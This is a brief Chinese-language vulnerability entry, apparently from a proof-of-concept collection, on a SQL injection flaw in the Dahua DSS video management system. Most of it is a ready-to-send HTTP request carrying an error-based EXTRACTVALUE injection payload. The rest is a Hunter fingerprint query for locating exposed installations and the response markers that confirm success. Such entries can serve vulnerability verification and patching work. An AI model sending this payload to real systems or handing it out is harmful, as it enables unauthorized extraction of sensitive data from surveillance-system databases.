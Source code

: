 ﻿# 大华DSS视频管理系统sql注入漏洞

> 更新时间：2024-02-20

> 漏洞编号：

> 漏洞说明：大华DSS数字监控系统attachment_getAttList接口存在SQL注入漏洞，攻击者可以利用该漏洞获取数据库敏感信息。

> 漏洞特征：指纹 hunter：app.name="Dahua大华 DSS 视频管理系统"

> 验证脚本：HTTP

```
GET /portal/attachment_getAttList.action?bean.RecId=1%27)%20AND%20EXTRACTVALUE(8841,CONCAT(0x5c,0x716b6b6b71,(SELECT%20(ELT(8841=8841,1))),0x7178786271))%20AND%20(%27mYhO%27=%27mYhO&bean.TabName=1 HTTP/1.1
```

> 响应代码特征：-1

> 响应内容特征：XPATH syntax

> 上传文件定位：


> 验证文件来源：大华DSS视频管理系统sql注入漏洞.poc
